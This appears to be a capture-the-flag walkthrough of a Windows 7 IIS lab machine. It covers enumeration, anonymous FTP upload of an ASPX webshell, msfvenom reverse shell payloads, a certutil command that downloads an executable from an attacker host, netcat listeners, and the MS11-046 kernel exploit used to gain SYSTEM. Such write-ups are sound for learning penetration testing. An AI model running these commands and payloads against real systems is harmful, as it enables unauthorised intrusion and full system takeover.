




# Enumeration

## Run Nmap Scan

```bash
nmap -p- -T4 10.129.86.39

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-09 07:57 BST
Nmap scan report for 10.129.86.39
Host is up (0.17s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 240.88 seconds
"
```

```bash
nmap -p 21,80 -sC -sV 10.129.86.39

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-09 08:01 BST
Nmap scan report for 10.129.86.39
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.13 seconds
"
```

## **View Website**



## Directory Bruteforcing (Run Gobuster)

```bash
gobuster dir -u http://10.129.86.39/ -w /usr/share/wordlists/dirb/common.txt -z

"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.86.39/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/10/09 08:02:08 Starting gobuster in directory enumeration mode
===============================================================
/aspnet_client        (Status: 301) [Size: 157] [--> http://10.129.86.39/aspnet_client/]
                                                                                        
===============================================================
2023/10/09 08:03:22 Finished
===============================================================
"
```

## Enumerating FTP

### Logging into FTP

```bash
ftp 10.129.86.39

"
Connected to 10.129.86.39.
220 Microsoft FTP Service
Name (10.129.86.39:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp>
"
```

When logging in, “anonymous” username is used to get into the ftp

### Downloading the File

```bash
ftp> ls

"
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
"

ftp> get welcome.png

"
local: welcome.png remote: welcome.png
200 PORT command successful.
125 Data connection already open; Transfer starting.
WARNING! 820 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
184946 bytes received in 1.30 secs (139.2041 kB/s)
ftp>
"
```

Downloading a file using an anonymous user account is possible

## Uploading a File

```bash
ftp> put randomFile.txt

"
local: randomFile.txt remote: randomFile.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
ftp>
"
```

Uploading a file using an anonymous user account is possible. We can exploit this system by uploading the reverse shell through ftp and then execute the file by clicking the link.

# Exploitation

## Exploiting  ASPX Reverse Shell to the FTP Server (Failed)

### Generating ASPX Reverse Shell

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=<attacker ip> LPORT=4444 -f aspx > rev_shell.aspx
```

### Uploading a ASPX Reverse Shell

```bash
ftp> ls

"
200 PORT command successful.
150 Opening ASCII mode data connection.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
10-09-23  01:56PM                    0 randomFile.txt
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
"

ftp> put rev_shell.aspx

"
local: rev_shell.aspx remote: rev_shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2905 bytes sent in 0.00 secs (25.8918 MB/s)
"
```

### Listen to Reverse Shell and Exploit (Failed)

```bash
nc -lvnp 4444

"
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.86.39.
Ncat: Connection from 10.129.86.39:49167.
"
```

For some reason, the when I try to execute the file by clicking the link `http://10.129.86.39/rev_shell.aspx`, the reverse shell gains the connection, but loses the connection within a second.

## Uploading a Webshell

[](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx)

### Copy the webshell to home directory

```powershell
cp /opt/useful/SecLists/Web-Shells/FuzzDB/cmd.aspx .
```

In order to upload the file `cmd.aspx` to ftp, we need to copy the file to our home directory

### Upload the webshell through ftp

```powershell
ftp> put cmd.aspx
```


## Uploading and Executing a Reverse Shell

### Generate a reverse shell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=4443 -f exe > rev_shell.exe
```

### Create a temp folder



```powershell
/c "mkdir C:\temp\"
```

We are creating a temp folder as there is no writable directory. We need to download a file here.

### Download the Reverse Shell



```powershell
/c "certutil -urlcache -f http://<attacker ip>://rev_shell.exe"
```

### Listen to Reverse Shell and Exploit



```powershell
/c "C:\temp\rev_shell.exe"
```

```bash
nc -lvnp 4443

"
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4443
Ncat: Listening on 0.0.0.0:4443
Ncat: Connection from 10.129.86.39.
Ncat: Connection from 10.129.86.39:49177.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami /user
whoami /user

USER INFORMATION
----------------

User Name       SID                                                           
=============== ==============================================================
iis apppool\web S-1-5-82-2971860261-2701350812-2118117159-340795515-2183480550

c:\windows\system32\inetsrv>
"
```

# Privilege Escalation

## Using Kernel Exploit

### Getting Systeminfo and Saving the file as systeminfo.txt

```bash
systeminfo

"
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          9/10/2023, 9:55:38 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 6 Model 85 Stepping 7 GenuineIntel ~2394 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.461 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.543 MB
Virtual Memory: In Use:    598 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 4
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.86.39
                                 [02]: fe80::9d0d:311c:9dac:12c3
                                 [03]: dead:beef::b982:b1f4:1277:5ae6
                                 [04]: dead:beef::9d0d:311c:9dac:12c3
"
```

### Install and execute wes-ng

```powershell
pip3 install wesng
wes --update # Update the exploit
wes systeminfo.txt -o out.csv # Input the systeminfo file and output the available exploit in csv file
```

### Search for Privilege Escalation Kernel Exploit

```bash
cat out.csv | grep 'Privilege' | grep '7' | grep 'exploit-db'
"20130108","CVE-2013-0008","2778930","Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege","Windows 7 for 32-bit Systems","","Important","Elevation of Privilege","http://www.exploit-db.com/exploits/24485"
"20110614","CVE-2011-1249","2503665","Vulnerability in Ancillary Function Driver Could Allow Elevation of Privilege","Windows 7 for 32-bit Systems","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/40564/"
"20110208","CVE-2010-4398","2393802","Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege","Windows 7 for 32-bit Systems","","Important","Elevation of Privilege","http://www.exploit-db.com/bypassing-uac-with-user-privilege-under-windows-vista7-mirror/, http://www.exploit-db.com/exploits/15609/"
```

### Download the Exploit (MS11-046)

[Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)](https://www.exploit-db.com/exploits/40564)

### Compile the Exploit

```bash
sudo apt-get install mingw-w64
i686-w64-mingw32-gcc exploit.c -o exploit.exe
```

### Exploit

```powershell
# Download the file to /temp folder and exploit
.\exploit.exe
whoami /user

"
USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18

c:\Windows\System32>
"
```